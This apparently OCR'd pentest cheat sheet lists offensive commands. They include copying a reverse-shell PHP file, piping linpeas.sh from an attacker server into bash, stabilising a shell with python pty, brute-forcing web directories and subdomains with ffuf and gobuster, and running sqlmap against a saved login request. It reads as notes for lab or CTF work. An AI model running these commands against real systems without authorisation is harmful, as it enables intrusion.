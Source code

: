 ## COPY cat command
```bash
cat reverse-shell.php | xclip -selection clipboard
```


After open a python server to send a file:

grab with curl:
```bash
curl <ip:port>/linpeas.sh | bash or sh # this will execute directly
```

## Better shell
```bash
{
	python -c "import pty;pty.spawn('/bin/bash')"
	crtl + z
	stty raw -echo
	fg
	enter
	enter
}
```

Discovery Web Content: dirb, gobuster, dirsearch
```bash
ffuf -u <url>/FUZZ -w <wordlist>
ffuf -u <url>/FUZZ-- -w <wordlist-special-chars> -mc 200,500 -fw 9
```


## GOBUSTER - WEB ENUMERATION

### try to find directories
```bash
gobuster dir -w /opt/Seclists/Discovery/Web-Content/raft-small-words.txt -x php -u <url> -o gobuster/dir-root.log
```

### try to find subdomains
```bash
gobuster vhost -w /opt/Seclists/Discovery/DNS/subdomains-topmillion-110000.txt -u <url> -o gobuster/vhist-sub.txt
```

> We can save the request of a login from burp/zap with copy to file. <request.req>

## SQLMAP
```bash
sqlmap -r <login.req> --batch

sqlmap -r <login.req> --batch --level 5 --risk 3
```
